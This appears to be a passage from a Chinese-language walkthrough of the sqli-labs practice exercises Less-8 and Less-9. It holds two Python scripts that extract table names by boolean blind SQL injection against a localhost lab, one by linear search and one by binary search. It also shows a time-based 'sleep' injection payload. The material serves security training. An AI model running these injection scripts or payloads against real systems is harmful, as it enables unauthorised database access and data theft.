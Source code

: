 爆字段

```python
import requests
url = "http://localhost/sqli/Less-8/"#url
for i in range(65,123):#具体想判断的数值
    parm = {"id": "1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))={}#".format(i)}#payload
    req = requests.get(url, params=parm)
    if "You are in..........." in req.text:
        print(i)
        break
```

二分法：

```python
import requests
def result(a,b):
    if (a+b)%2==0:
        return (a+b)/2
    else:
        return (a+b-1)/2
#url
url = "http://localhost/2.sqli/Less-8/"
left=65
mid=94
right=123
while True:
    #payload
    parm = {"id": "1'and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1)) > %d #" % mid}
    req = requests.get(url, params=parm)
    if "You are in..........." in req.text:
        left = mid
        mid=result(right,mid)
    else:
        right = mid
        mid=result(left,mid)
    if right == mid or left == mid:
        print(chr(int(right))) if right > left else print(chr(int(left)))
        break
```



## Less-9

##### 注入类型

时间型盲注

##### 注入点

- 无论输入什么东西，页面都只有回显一个页面，所以只能使用时间盲注
- 再输入`?id=1'and sleep(2) --+`，页面延迟了2秒显示
